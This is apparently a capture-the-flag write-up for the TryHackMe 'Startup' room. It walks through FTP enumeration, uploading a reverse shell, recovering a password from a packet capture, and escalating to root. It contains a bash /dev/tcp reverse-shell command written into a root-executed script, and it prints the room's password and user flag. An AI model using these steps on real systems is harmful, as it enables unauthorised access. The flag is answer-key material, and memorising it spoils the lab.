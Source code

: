 # Startup

Room: Startup

Link: https://tryhackme.com/room/startup

Machine IP: 10.10.55.197

### Recon 
<h4> Nmap Scan </h4>

21/tcp open  ftp

22/tcp open  ssh

80/tcp open  http

Also during nmap scan we see that anonymous login is allowed so we will take a look at that in a min but first let's have a look at dirb scan.

<h4> Dirb Scan </h4>

Dirb scan gives us a directory named files.
  
  <img src="images/directory.png">

### Enumeration
Now connecting to the ftp server we find a image file and a txt file downloading them to our machine and now seeing the contents of txt file it says "Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus."

Well didn't get much out of it.And there's nothing in the image too.

<h4> Reverse shell</h4> 

We don't have the write permissions on "/" directory so we upload the rev shell file on ftp directory and it is successful.

 <img src="images/upload.png">

Starting a listener and we have our reverse shell.
  
   <image src="images/recipe.png">

Moving to the incidents directory we find a .pcapng file and to download that file we copy the file from the target machine to its open ftp server 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/

Downloading the file on our machine.
 
  <img src="images/suspicious.png">

Typing the command strings suspicious.pcapng scrolling down and we see the password for www-data.
 c4ntg3t3n0ughsp1c3

  <img src="images/password.png">

Stabilizing our reverse shell by using the following command.
  python -c 'import pty; pty.spawn("/bin/sh")'

Entering the above found password for lennie we get access. Moving to the home/lennie directory we have our user flag: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

<h3> PrivEsc </h3>
Moving to the scripts folder.
Using the following command and print the reverse shell command in the print.sh file so that we can get a privileged shell
 
  <img src="images/lennie.png">

    echo 'bash -c "bash -i >& /dev/tcp/10.9.162.197/8080 0>&1"' > /etc/print.sh

After this we get a privileged shell and we have our root flag

<img src="images/root.png">
